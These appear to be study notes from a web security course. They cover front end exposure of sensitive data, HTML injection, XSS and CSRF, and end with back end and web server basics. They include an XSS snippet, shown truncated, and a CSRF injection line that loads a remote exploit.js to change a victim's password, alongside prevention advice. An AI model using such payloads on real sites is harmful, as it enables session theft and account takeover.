- Still, there are implementations of back end JavaScript used to develop entire web applications, like **NodeJS**.

- While **HTML** and **CSS** are mainly charge of how a web page looks, **JavaScript** is usually used to control any functionality that the front end page requires.

- Without **JavaScript**, a web page would be mostly static and would not have much functionality or interactive elements.

### Example

- Within the page source code, **JavaScript** code is loaded with the **<script>** tag, as follows:

```
<script type="text/javascript">
...JavaScript code...
</script>
```

- A web page can also load remote **JavaScript** code with **src** and the script's link, as follows:

```
<script src="./script.js"></script>
```

- An example of basic use of **JavaScript** within a web page is the following:

```
document.getElementByID("button1").innerHTML = "Changed Text!";
```

- The above example changes the content of the **button1** HTML element. From here on, there are many more advanced uses of **JavaScript** on a web page.

- As with HTML, there are many sites available online to experiment with **JavaScript**. One example is **JSFiddle** which can be used to test **JavaScript**, **CSS**, and **HTML** and save code snippets.

- **JavaScript** is an advanced language, and its syntax is not as simple as **HTML** and **CSS**.

### Usage


- Most common web applications heavily rely on **JavaScript** to drive all needed functionality on the web page, like updating the web page view in real-time, dynamically updating the content in real-time, accepting and processing user input, and many other potential functionalities.

- **JavaScript** is also used to automate complex processes and perform HTTP requests to interact with the back end components and send and retrieve data, through technologies like **Ajax**.

- In addition to automation, **JavaScript** is also often used alongside **CSS**, as previously mentioned, to drive advanced animations that would not be possible with **CSS** alone.

- Whenever we visit an interactive and dynamic web page that uses many advanced and visually appealing animations, we are seeing the result of active **JavaScript** code on the client-side without relying on the back end webserver to update the page.

- This makes using **JavaScript** a very fast way to achieve a large number of processes quickly.

### Frameworks

- As web applications become more advanced, it may be inefficient to use pure **JavaScript** to develop an entire web application from scratch.

- This is why a host of **JavaScript** frameworks have been introduced to improve the experience of web applicationn development.

- These platforms introduce libraries that make it very simple to re-create advanced functionalities, like user login and user registration, and they introduce new technologies based on existing ones, like the use of dynamically changing **HTML** code instead of using static **HTML** code.

- These platforms either use **JavaScript** as their programming language or use an implementation of **JavaScript** that compiles its codes into **JavaScript** code.

- Some of the most common front end **JavaScript** frameworks are:

  - Angular
  - React
  - Vue
  - jQuery


## Sensitive Data Exposure

- All of the **front end** components we covered are interactive with on the client-side.

- Therefore, if they are attacked, they do not pose a direct threat to the core **back end** of the web application and usually will not lead to permanent damage.

- However, as these components are executed on the **client-side**, they put the end-user in dange of being attacked and exploited if they do have any vulnerabilities.

- If a front end vulnerability is leveraged to attack admin users, it could result in unauthorized access, access to sensitive data, service disruption, and more.

- Although the mojority of web application penetration testing is focused on back end components and their functionality, it is important also to test front end components for potential vulnerabilities, as these types of vulnerabilities can sometimes be utilized to gain access to sensitive functionality (i.e., an admin panel), which may lead to compromising the entire server.

- **Sensitive Data Exposure** refers to the availability of sensitive data in clean-text to the end-user. 

- This is usually found in the **source code** of the web page or page source on the user.

- This is usually found in the **source code** of the web page or page source on the front end of web applications.

- This is the HTML source code of the application, not to be confused with the back end code that is typically only accessible on the server itself.

- We can view any website's page source in our browser by right-clicking anywhere on the page and selecting **View Page Source** from the pop-up menu.

- Sometimes a developer may disable right-clicking on a web application, but this does not prevent us from viewing the page source as we can merely type **ctrl + u** or view the page source.

- Righ-click and choose **View Page Source**, and a new tab will open in our browser with the URL **view-source:https://google.com/**.

- Here we can see the **HTML**, **JavaScript**, and external links.



- Sometimes we may find the login **credentials**, **hashes**, or other sensitive data hidden in the comments of a web page's source code or within external **JavaScript** code being imported.

- Other sensitive information may include exposed links or directories or even exposed user information, all of which can potentially be leveraged to further our access within the web application or even the web application's supporting infrastructure (webserver, database server, etc.).

- Other sensitive information may include exposed links or directories or even exposed user information, all of which can potentially be leveraged to further our access within the web application or even the web application's supporting infrastructure (webserver, database server, etc.).

- For this reason, one of the first things we should do when assessing a web application is to review its page source code to se if we can identify any 'low-hanging fruit', such as exposed credentials or hidden links.

## Example

- A first glance, this login form does not look like anything out of the ordinary:


- Let's take a look at the page source:

```
<form action="action_page.php" method="post">

    <div class="container">
        <label for="uname"><b>Username</b></label>
        <input type="text" required>

        <label for="psw"><b>Password</b></label>
        <input type="password" required>

        <!-- TODO: remove test credentials test:test -->

        <button type="submit">Login</button>
    </div>
</form>

</html>
```

- We see that the developers added some comments that they forgot to remove, which contain test credentials:

```
<!-- TODO: remove test credentials test:test -->
```

- The comment seems to be a reminder for the developers to remove the test credentials. Given that the comment has not been removed yet, these credentials may still be valid.

- Although it is not very common to find login credentials in developer comments, we can still find various bits of sensitive and valuable information when looking at the source code, such as test pages or directories, debugging parameters, or hidden functionality.

- There are various automated tools that we can use to scan and analyze available page source code to identify potential paths or directories and other sensitive information.

- Leveraging these types of information can give us further access to the web application, which may help us attack the back end components to gain control over the server.


## Prevention

- Ideally, the front end source code should only contain the code necessary to run all of the web applications functions, without any extra code or comments that are not necessary for the web application to function properly.

- It is always important to review the code that will be visible to end-users through the page source or run it through tools to check for exposed information.

- It is also important to classify data types within the source code and apply controls on what can or cannot be exposed on the client-side.

- Developers should also review client-side code to ensure that no unnecessary comments or hidden links are left behind.

- Furthermore, front end developers may want to use **JavaScript** code packing or obfuscation to reduce the chances of exposing sensitive data through **JavaScript code**. These techniques may prevent automated tools from locating these types of data.


## HTML Injection

- Another major aspect of front end security is validating and sanitizing accepted user input.

- In many cases, user input validation and sanitization is carried out on the back end.

- However, some user input would never make it to the back end in some cases and is completely processed and rendered on the front end. Therefore, it is critical to validate and sanitize user input on both the front end and the back end.

- **HTML Injection** occurs when unfiltered user input is displayed on the page. This can either be through retrieving previously submitted code, like retrieving a user comment from the back end database, or by directly displaying unfiltered user input through **JavaScript** on the front end.

- When a user has complete control of how their input will be displayed, they can submit **HTML** code, and the browser may display it as part of the page.

- This may include a malicious **HTML** code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.

- Another example of **HTML Injection** is web page defacing. This consists of injecting new **HTML** code to change the web page's appearance, inserting malicious ads, or even completely changing the page. This type of attack can result in severe reputational damage to the company hosting the web application.

### Example

- The following example is a very basic web page with a single button "**Click to enter your name."** When we click on the button, it prompts us to input our name and then displays our name as "**Your name is ...**":


- If no input sanitization is in place, this is potentially an easy target for **HTML Injection** and **Cross-Site Scripting (XSS)** attacks.

- We take a look at the page source code and see no input sanitization in place whatsoever, as the page takes user input and directly displays it:

```
!DOCTYPE html>
<html>

<body>
    <button onclick="inputFunction()">Click to enter your name</button>
    <p id="output"></p>

    <script>
        function inputFunction() {
            var input = prompt("Please enter your name", "");

            if (input != null) {
                document.getElementById("output").innerHTML = "Your name is " + input;
            }
        }
    </script>
</body>

</html>
```

- To test for **HTML Injection**, we can simply input a small snippet of **HTML** code as our name, and see if it displayed as part of the page. We will test the following code, which changes the background image of the web page:


## Cross-Site Scripting

- **HTML Injection** vulnerabilities can often be utilized to also perform **Cross-Site Scripting (XSS)** attacks by injecting **JavaScript** code to be executed on the client-side.

- Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.

- **XSS** is very similar to **HTML Injection** in practice. However, **XSS** involves the injection of **JavaScript** code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of **XSS**:

| **Type** | **Description** |
|----------|-----------------|
| **Reflected XSS** | Occurs when user input is displaying on the page after processing (e.g., search result or error message). |
| **Stored XSS** | Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments). |
| **DOM XSS** | Occurs when user input is directly shown in the browser and is written to an **HTML** DOM onject (e.g., vulnerable username or page title). |

- In the example we saw for **HTML Injection** there was no input sanitization whatsoever. Therefore, it may be possible for the same page to be vulnerable to **XSS** attacks.

- We can try to inject the following **DOM XSS JavaScript** code as a payload which should show us the cookit value for the current user:

**javascript code**
```
#">
```

- Once we input our payload and hit **ok**, we see that an alert window pops up with the cookie value in it:


- This payload is accessing the **HTML** document tree and retrieving the **cookie** object's value. When the browser processes our input, it will be considered a new **DOM**, and our **JavaScript** will be executed, displaying the cookie value back to us in a popup.

- An attacker can leverage this to steal cookie sessions and send them to themeselves and attempt to use the cookie value to autheticate to the victim's account.

- The same attack can be used to perform various types of other attacks against a web application's users. **XSS** is a vast topic that will be covered in-depth in later modules.

## Cross-Site Request Forgery (CSRF)

- The third type of front end vulnerability that is caused by unfiltered user input is **Cross-Site Request Forgery (CSRF)**.

- **CSRF** attacks may utilize **XSS** vulnerabilities to perform certain queries, and **API** calls on a web application that the victim is currently authenticated to.

- This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

- A common **CSRF** to gain higher privileged access to a web application is to craft a **JavaScript** payload that automatically changes the victim's password to the value set by the attackers.

- Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the **JavaScript CSRF** payload), the **JavaScript** code would execute automatically. It would use the victim's logged-in session to change their password.

- Once that is done, the attacker can log in to the victim's account and control it.

- **CSRF** can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admin within a given web application).

- Following this example, instead of using **JavaScript** code that would return the session cookie, we would load a remote **.js** (**JavaScript**) file, as follows:

```
"><script src=//www.example.com/exploit.js></script>
```

- The **exploit.js** file would contain the malicious **JavaScript** code that changes the user's password.

- Developing the **exploit.js** in this case requires knowledge of this web application's password changing procedure and **APIs**.

- The attacker would need to create **JavaScript** code that would replicate the desired functionality and automatically carry it out (i.e., **JavaScript** code that changes our password for this specific web application).

### Prevention

- Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without comunicating with the back end.

| **Type** | **Description** |
|----------|-----------------|
| Sanitization | Removing special characters and non-standard characters from user input before displaying it or storing it.|
| Validation | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

- Furthermore, it is also important to sanitize displayed output and clear may special/non-standard characters.

- In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

- Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like **HTML Injection**, **XSS**, or **CSRF**.

- Another solution would be to implement a **web application firewall (WAF)**, which should help to prevent injection attempts automatically.

- However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on appliance to detect/block attacks.

- As for **CSRF**, many modern browsers have built-in anit-CSRF measures, which prevent automatically executing **JavaScript** code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e., **anti-CSRF** token, or **http-only**/**X-XSS-Protection**).

- Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it.

- Many of these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

- The **Cross-Site Request Prevention Cheat Sheet** from OWASP discusses the attack and prevention measures in greater detail.

## Back End Servers

- A back end server is the hardware and operating system on the back end that hosts all of the applications necessary to run the web application.

- It is the real system running all of the processes and carrying all of the taks that make up the entire web application.

- The back end server would fit in the **Data access layer**.

### Software

- The back end server contains the other 3 back end components:

  - Web Server
  - Database
  - Development Framework



- Other software components on the back end server may include **hypervisors**, containers, and WAFs.

- There are many popular combinations of "stacks" for back-end servers, which contain a specific set of back end components. Some common example include:

| **Combinations** | **Components** |
|------------------|----------------|
| LAMP | **Linux**, **Apache**, **MySQL**, and **PHP**. |
| WAMP | **Windows**, **Apache**, **MySQL**, and **PHP**. |
| WINS | **Windows**, **IIS**, **.NET**, and **SQL Server** |
| MAMP | **macOS**, **Apache**, **MySQL**, and **PHP**. |
| XAMPP | Cross-Platform, **Apache**, **MySQL**, and **PHP/PERL**. |

### Hardware

- The back end server contains all of the necessary hardware. The power and performance capabilities of this hardware determine how stable and responsive the web application will be.

- As previously discussed in the **Architecture** section, many architectures, especially for huge web applications, are designed in the **Architecture** section, many architectures, especially for huge web applications, are designed to distribute their load over many back end servers that collectively work together to perform the same tasks and deliver the web application to the end-user. Web applications do not have to run directly on a single back end server but may utilize data centers and cloud hosting services that provide virtual hosts for the web application.

## Web Server

- A **web server** is an application that runs on the back end server, which handles all of the HTTP traffic from the client-side browser, routes it to the requested pages, and finally responds to the client-side browser.

- Web servers usually run on TCP **ports** **80** and **443**, and are responsible for connecting end-users to various parts of the web application, in addition to handling their various responses.

### Workflow

- A typical web server accepts HTTP requests from the client-side, and responds with different HTTP responses and codes, like a code **200 OK** response for a successful request, a code **404 NOT FOUND** when requesting pages that do not exist, code **403 FORBIDDENT** for requesting access to restricted pages, and so on.




